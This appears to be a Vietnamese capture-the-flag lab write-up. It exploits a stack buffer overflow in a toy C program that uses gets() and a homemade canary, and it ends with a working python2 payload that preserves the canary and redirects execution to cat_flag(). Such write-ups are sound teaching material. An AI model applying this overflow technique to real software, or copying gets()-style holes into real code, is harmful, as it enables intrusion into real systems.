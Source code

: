 # BÀI TẬP LỚN KHAI THÁC LỖ HỔNG PHẦN MỀM

- Bài 2: Bufferoverflow-homemade-cookie-v1

Ở đây mình đã được cung cấp source code của bài này

![src.png](images/src.png)

Ở đây ta cần chú ý đến 2 hàm đó là hàm `vun()`

```
void vun()
{
int i = 0xc00c1e;
char buff[16];
gets(&buff);
printf("%s", buff);
    if (i != 0xc00c1e)
    {
        printf("DONT SMASH THE STACK PLZ!\n");
        exit(0);
    }
}
```

và hàm `cat_flag()` để ta lấy flag

```
int cat_flag()
{
system("cat flag");
}
```

Đầu tiên ta sẽ phân tích luồng thực thi của chương trình bằng `gdb`, nhưng trước đó ta cần cấp full quyền cho file `Bufferoverflow-homemade-cookie-v1` bằng câu lệnh 

```
chmod 777 ./Bufferoverflow-1-byte
```

Ở bài này hãy cũng nhau đọc source code:

Ta thầy ở hàm `vun()` biến buff được cấp phát 16 bytes nhưng chương trình lại sử dụng hàm `gets()`, đây là lỗi rất nhiều lập trình viên mắc phải đó là: không kiểm soát số lượng ký tự đầu vào của chương trình dẫn đến lỗi buffer overflow

Tiếp đến, chương trình sẽ so sánh biến `i` được cấp phát ban đầu xem nó có bị thay đổi gì hay không, nếu biến `i` bị thay đổi, chương trình sẽ in ra dòng chữ `DONT SMASH THE STACK PLZ!`

Chúng ta sẽ sử dụng gdb để xem luồng thực thi chương trình

![gdb0.png](images/gdb0.png)

Nhìn vào đoạn mã assembly, ta có thể thấy biến `i` nằm ở vị trí [ebp-0xc] với giá trị tại địa chỉ ấy là `0xc00c1e`, địa chỉ lưu chuỗi input của ta là [ebp-0x1c] chính là giá trị của thanh ghi `eax`

Ta luôn biết được địa chỉ trả về (return_address) của hàm `vun()` luôn nằm tại vị trí [ebp+0x4] mà biến buff của ta được lưu tại địa chỉ [ebp-0x1c], cộng với hàm `gets()` cho ta thoải mái nhập số lượng ký tự

-> Ta chỉ cần overwrite 0x20 bytes và 4 bytes còn lại là địa chỉ của hàm `cat_flag()` thì ta sẽ ghi đè địa chỉ trả về khiến sau khi kết thúc hàn `vun()`, chương trình sẽ gọi hàm `cat_flag()` và ta sẽ lấy được flag

Ở đây có điều kiện là không được thay đổi giá trị của `i` - chính là giá trị tại địa chỉ [ebp-0xc]

=> payload của ta sẽ bao gồm: 
+ 16 bytes để đến địa chỉ `i`
+ 4 bytes giá trị tại địa chỉ `i` ban đầu
+ 12 bytes tiếp theo đến đến return_addr
+ 4 bytes cuối ghi đè ret_addr thành địa chỉ hàm `cat_flag()`

```
python2 -c 'print "a"*0x10 + "\x1e\x0c\xc0\x00" + "a"*0xc + "\xcb\x84\x04\x08"'
```

![flag.png](images/flag.png)